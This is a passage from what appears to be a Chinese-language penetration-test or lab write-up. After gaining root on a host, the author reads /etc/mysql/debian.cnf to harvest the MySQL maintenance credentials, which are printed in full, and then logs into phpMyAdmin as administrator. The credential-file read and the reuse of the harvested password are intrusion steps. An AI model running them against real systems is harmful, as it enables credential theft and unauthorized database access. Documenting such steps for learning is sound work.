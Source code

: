 ```yacas
root@indishell:~# 

```

**很神奇地获取了 root 权限**，出于对 phpMyAdmin 的管理员账户的好奇，获取一下账密

```shell
root@indishell:~# cat /etc/mysql/debian.cnf
# Automatically generated for Debian scripts. DO NOT TOUCH!
[client]
host     = localhost
user     = debian-sys-maint
password = Ypo4adDVx2Bzel79
socket   = /var/run/mysqld/mysqld.sock
[mysql_upgrade]
host     = localhost
user     = debian-sys-maint
password = Ypo4adDVx2Bzel79
socket   = /var/run/mysqld/mysqld.sock
basedir  = /usr
```

以管理员身份进入了 phpMyAdmin：

![image-20251021122336065](images/image-20251021122336065.png)

